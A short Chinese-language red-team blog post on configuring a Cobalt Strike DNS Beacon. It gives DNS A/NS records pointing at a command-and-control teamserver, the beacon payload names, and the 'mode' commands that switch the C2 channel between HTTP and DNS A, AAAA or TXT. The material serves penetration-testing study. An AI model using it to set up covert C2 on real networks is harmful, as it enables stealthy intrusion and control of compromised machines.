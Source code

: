 ```yaml
---
title: "Cobalt Strike DNS Beacon"
date: 2019-07-05T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ["cobalt strike"]
categories: ["内网渗透"]

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


通过添加 DNS Beacon 达到利用 DNS staging payload 的目的.

隐蔽性好, 但传输速度慢.

<!--more-->

首先需要配置 A 记录指向 teamserver 的 IP (NS 记录的目标只能为域名).

之后配置 NS 记录 (名称任意 不必为其子域名) 指向 teamserver 所在域名.

```
malwarec2  A   192.168.1.1
profile    NS  malwarec2.exp10it.cn
games      NS  malwarec2.exp10it.cn
pictures   NS  malwarec2.exp10it.cn
```

添加 DNS Beacon, 这里以 `windows/beacon_http/reverse_http` 为例.

![add dns beacon 1](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/2019/add_dns_beacon_1.jpg)

![add dns beacon 2](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/2019/add_dns_beacon_2.jpg)

至此, 对 NS 域名及其子域的所有请求都将被发送至 teamserver 所在服务器.

```
request profile.exp10it.cn to malwarec2.exp10it.cn
request test.profile.exp10it.cn to malwarec2.exp10it.cn
```

在 cobalt strike 添加 DNS Beacon 后将会启动 DNS Server, 开放 53 端口, 注意防火墙设置.

除此之外还有 `windows/beacon_dns/reverse_dns_txt`, 该 payload 完全利用 DNS TXT 记录传输数据, 因此 Listener 的端口是非必需的, 但可能会有数以千计的 DNS 请求被发送.

在 interact 中使用 `mode` 命令切换传输模式.

```
mode http //switch to HTTP mode
mode dns // switch to DNS A mode
mode dns6 // switch to DNS AAAA mode
mode dns-txt //switch to DNS TXT mode
```